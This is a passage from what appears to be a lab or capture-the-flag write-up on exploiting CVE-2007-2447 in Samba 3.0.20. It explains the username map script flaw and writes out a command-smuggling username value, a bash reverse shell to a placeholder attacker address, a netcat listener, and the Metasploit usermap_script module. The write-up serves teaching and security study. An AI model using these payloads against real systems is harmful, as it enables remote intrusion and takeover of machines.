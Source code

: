 Samba is a free and open source implementation of the
[Server Message Block](https://en.wikipedia.org/wiki/Server_Message_Block) (SMB)
protocol. SMB is a protocol for sharing files and printers over networks. It's
commonly used in corporate environments, where the network usually consists of
predominantly Windows PCs.

In the port scan above, Samba is listening on two ports. The first, 139, is the
[NetBIOS](https://en.wikipedia.org/wiki/NetBIOS) session port, NetBIOS being the
original API SMB used to manage client sessions. Port 445 was added to the
protocol later and allows clients to use SMB without NetBIOS.

In brief, CVE-2007-2447 exists as a result of how Samba 3.0.20 implements MS-RPC
requests. MS-RPC is a remote procedure call (RPC) protocol developed by
Microsoft. Samba 3.0.20 provides an option in its configuration file,
`smb.conf`, that allows a username map script to be configured. For example:

```text
username map script = /etc/samba/scripts/mapusers.sh
```

This script is called by the Samba daemon with the username of the user trying
to authenticate. Internally, the daemon makes a call to `sh -c`, passing the
script and the username as input. By selecting an appropriate value for the
username, arbitrary code can be executed on the target machine. Specifically,
setting ``username = "/=`nohup <command>`"`` when authenticating with Samba will
result in `<command>` being run on the target.

The most effective command to use in this sort of scenario is a reverse shell.
This essentially means that we make the target issue a network request _back_ to
us in such a way that we get an interactive shell on the target. A typical
payload to achieve this would look like

```shell-session
bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1
```

There's a fair bit of Unix piping going on here, but all this is really doing is
starting bash in interactive mode (N.B. the `-i` flag) and piping _all_ the
output of that to a TCP socket connecting the target to the attacker's IP and
port. The socket here is bidirectional, so the payload includes the `0>&1` pipe
to ensure that the terminal's standard input is also linked to this socket.

As the attacker, we would then listen for this connection using netcat, for
example:

```shell-session
$ nc -nlvp <attacker_port>
```

The target then runs the payload command, providing the attacker (us) with an
interactive shell.

At this point I confess I got a little lazy and just pulled out the
`multi/samba/usermap_script` exploit module in Metasploit:

```shell-session
$ msfconsole

... Metasploit spits out a load of ASCII art/version stuff here that I'll leave out ...

[msf](Jobs:0 Agents:0) >> use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
```
